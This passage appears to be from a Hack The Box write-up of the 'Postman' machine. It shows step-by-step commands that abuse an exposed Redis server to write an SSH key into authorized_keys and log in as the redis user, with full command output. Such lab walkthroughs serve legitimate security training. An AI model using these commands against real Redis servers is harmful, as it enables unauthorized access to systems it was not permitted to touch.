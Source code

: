 On a normal installation we would not be able to do anything with this user since the login shell is set to `/usr/sbin/nologin` but on Postman the login shell is set to `/bin/bash`. Here are the steps I followed to put my SSH key on the server.

Step 1. Generate blob to be injected

```
root@kali:~/htb/postman# echo -e '\n\n' >> blob.txt
root@kali:~/htb/postman# cat ~/.ssh/id_rsa.pub >> blob.txt
root@kali:~/htb/postman# echo -e '\n\n' >> blob.txt
```

Step 2. Update the Redis configuration

```
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
```

Step 3. Do the attack

```
root@kali:~/htb/postman# redis-cli -h 10.10.10.160 flushall
OK
root@kali:~/htb/postman# cat blob.txt | redis-cli -h 10.10.10.160 -x set sshblob
OK
root@kali:~/htb/postman# redis-cli -h 10.10.10.160 save
OK
```

And we can now log in to the box with SSH:

```
root@kali:~/htb/postman# ssh redis@10.10.10.160
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$
```

## Getting Matt's credentials
